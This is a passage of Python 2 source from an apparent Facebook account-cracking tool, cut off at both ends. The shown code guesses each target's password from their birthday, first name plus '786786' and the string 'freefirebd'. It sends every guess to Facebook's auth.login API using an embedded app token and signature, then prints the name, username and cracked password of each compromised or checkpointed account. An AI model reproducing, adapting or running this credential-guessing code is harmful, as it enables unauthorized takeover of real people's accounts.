 							raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
							menu_hack()
						else:
							if 'www.facebook.com' in y["error_msg"]:
								print "\033[1;91m[+] \033[1;92mFound"
								print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
								print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
								print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
								print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
								raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
								menu_hack()
							else:
								mode = a['birthday']
								pz4 = mode.replace('/', '')
								data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								y = json.load(data)
								if 'access_token' in y:
									print "\033[1;91m[+] \033[1;92mFound"
									print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
									print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
									print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
									raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
									menu_hack()
								else:
									if 'www.facebook.com' in y["error_msg"]:
										print "\033[1;91m[+] \033[1;92mFound"
										print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
										print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
										print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
										print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
										raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
										menu_hack()
									else:
										lahirs = a['birthday']
										jay = lahirs.replace('/', '')
										pz5 = a['first_name']+786786
										data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										y = json.load(data)
										if 'access_token' in y:
											print "\033[1;91m[+] \033[1;92mFound"
											print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
											print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
											print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
											raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
											menu_hack()
										else:
											if 'www.facebook.com' in y["error_msg"]:
												print "\033[1;91m[+] \033[1;92mFound"
												print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
												print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
												print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
												print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
												raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
												menu_hack()
											else:
												pz6 = "freefirebd"
												data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												y = json.load(data)